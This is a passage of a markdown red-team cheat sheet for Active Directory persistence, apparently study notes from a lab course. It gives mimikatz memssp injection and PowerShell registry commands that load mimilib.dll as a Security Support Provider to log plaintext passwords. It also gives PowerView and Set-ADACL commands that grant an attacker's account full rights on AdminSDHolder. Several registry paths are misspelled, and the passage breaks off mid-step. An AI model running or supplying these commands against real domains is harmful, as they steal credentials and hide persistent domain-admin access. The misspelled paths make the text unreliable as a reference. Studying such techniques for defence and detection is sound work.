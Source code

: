 > :eight: ***Security Support Provider*** -- DLL file allows the application to obtain authenticated connection 
>
> > Supported SSP Packages are NTLM, Kerberos, Wdigest, CredSSP
> >
> > mimilib.dll is a custom SSP do a keylogger for accounts passwords in clear text on target server 
> >
> > > :a: ***Injecting to LSASS*** -- Not Stable 
> > >
> > > ```
> > > Invoke-mimikatz -Command '"misc::memssp"'
> > > ```
> >
> > > :b: ***Drops mimilib.dll in System32 then add Hive***
> > >
> > > ```
> > > $package = Get-ItemProperty HKLM:\SYSTEM\CurrentContolSet\Control\Lsa\osconfig -Name 'Security Packages'| select-ExpandProperty 'Security Packages'
> > > 
> > > $package+="mimilib"
> > > 
> > > Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\osconfig\ -Name 'Security PAckages' -Value $package
> > > 
> > > Set-ItemProperty HKLM:\SYSTEM\CureentControlSet\Control\Lsa\ -Name 'Security PAckages' -Value $package
> > > ```
> > >
> > > :rotating_light: **Logs @ C:\Windows\System32\kiwissp.log**
>
> :nine: ***ACLs***
>
> > :nine: :a: ***AdminSDHolder*** : Control the permissions using an ACL for Protected Group [Static Values of ACL]
> >
> > > Security Descriptor Propagator (SDPROP) runs every hour overwritten on object ACL by comparing the ACL of protected groups and members with the ACL of AdminSDHolder 
> > >
> > >   :information_source: Add your account in the AdminSDHolder gives persistence 
> > >
> > > ***Add Full Permission for a user in AdminSDHolder*** 
> > >
> > > Need Domain Admin :rotating_light: privs to execute :point_down:
> > >
> > > > **PowerView**  
> > > >
> > > > > ```
> > > > > add-objectACL -TargetADSprefix 'CN=AdminSDHolder,CN=System'-PrincipalSamAccountName <YOUR account> -Rights All -Verbose
> > > > > ```
> > > >
> > > > ***ACTIVE Directory***
> > > >
> > > > > :one:`Import-Module Microsoft.ActiveDirectory.Management.dll`
> > > > >
> > > > > :two:`Import-Module ActiveDirectory.psd1`
> > > > >
> > > > > :three: `Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Pricipal <accountNAme> -Verbose `
> > > > >
> > > > > :four: **Run Propagator**
> > > > >
> > > > > > ```